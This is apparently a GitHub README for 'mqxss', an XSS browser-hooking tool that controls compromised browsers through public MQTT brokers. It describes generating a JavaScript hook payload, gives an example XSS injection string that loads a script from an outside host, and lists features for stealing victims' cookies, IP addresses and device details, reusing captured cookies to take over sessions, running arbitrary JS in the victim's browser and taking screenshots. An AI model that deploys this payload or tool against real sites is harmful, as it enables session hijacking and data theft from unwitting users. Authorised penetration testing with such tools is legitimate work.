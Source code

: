 # mqxss


**mqxss acts as a client to communicate with hooked browsers over MQTT**



![Screenshot from 2023-07-03 15-15-35](https://github.com/grampae/mqxss/assets/36344197/d5fae62a-bc5c-4d98-b45e-03cdf541e979)




I created this without a lot of bells and whistles so that the user could send raw JS to the hooked browser.  One might even consider this to be a poor mans BEeF as no server is required, you can use a public broker (however currently uses obfuscation, encryption is in the works).

Hooked browsers will communicate in the MQTT topic on the broker you specify, there are many public/free brokers to test this with.

To generate a JS payload to hook browsers with set the -g flag at runtime along with your broker, port and topic variables.  Doing so will create your payload in the /js/ folder.

Then send your XSS payload to the victim while the mqxss client is running, ex: '"><script src=https://example.com/x.js></script> or something similar, if vulnerable you should get a notification saying the browser has connected with some basic details including cookies etc.
 
![a](https://github.com/grampae/mqxss/assets/36344197/20096c91-2e9e-4302-b5a9-e2edd665d382)

 
**Features:**

- **currently only works with mqtt brokers that use secure websockets however future version will supports mqtts as well.**
- **open hooked browser location with captured cookies**
- **when hooked it grabs cookies, ip, device type, user agent**
- **view past hooked (unhooked) browsers**
- **send js to currently hooked browsers and get response if available**
- **pushover notification**
- **screenshot of hooked browser**

**Todo:**

- [ ] Encryption (currently just obfuscated)
- [ ] Set user , password  for brokers that require it at runtime
- [x] Generate js payload at runtime to hook browsers with
- [x] Open browser with hooked browser cookies for convenience
